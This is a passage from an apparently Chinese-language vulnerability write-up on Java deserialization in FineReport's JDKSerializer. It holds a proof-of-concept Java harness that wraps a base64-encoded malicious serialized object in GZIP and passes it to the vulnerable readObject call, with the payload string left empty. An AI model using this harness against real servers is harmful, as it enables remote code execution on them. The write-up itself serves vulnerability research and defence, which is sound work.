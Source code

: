 需要注意的是，由于反序列化漏洞具有高危性和难以发现的特点，应用程序中应尽量避免使用反序列化操作，或者对反序列化输入进行严格的校验和过滤，以防止攻击者利用该漏洞进行恶意攻击。

## Payload

最终得到 Payload 如下（包含测试环境）：

```java
import com.fr.serialization.JDKSerializer;

import java.io.*;
import java.util.Base64;
import java.util.Map;
import java.util.zip.GZIPInputStream;
import java.util.zip.GZIPOutputStream;

public class Test {
    public static void main(String[] args) {
        try {
            String base64String = getBase64();
            byte[] bytes = Base64.getDecoder().decode(base64String);

            // 使用Java反序列化漏洞利用工具生成一个包含恶意代码的序列化对象，并将其序列化成字节数组
            byte[] maliciousBytes = bytes;

            // 构造一个GZIP格式的字节数组，将恶意字节数组存储在GZIP数据块中
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            GZIPOutputStream gzipOutputStream = new GZIPOutputStream(baos);
            gzipOutputStream.write(maliciousBytes);
            gzipOutputStream.finish();
            byte[] gzipBytes = baos.toByteArray();

            // 将GZIP格式的字节数组封装成一个输入流对象，并作为var0参数传入Env函数中
            InputStream var0 = new ByteArrayInputStream(gzipBytes);
            Env(var0);

        }catch (Exception e){e.printStackTrace();}


    }

    private static void Env(InputStream var0) throws IOException, ClassNotFoundException {
        GZIPInputStream var2 = new GZIPInputStream(var0);
        JDKSerializer.CustomObjectInputStream var3 = new JDKSerializer.CustomObjectInputStream(var2);
        Map map = (Map) var3.readObject();
    }

    private static String getBase64() {
        return "";
    }
}

```
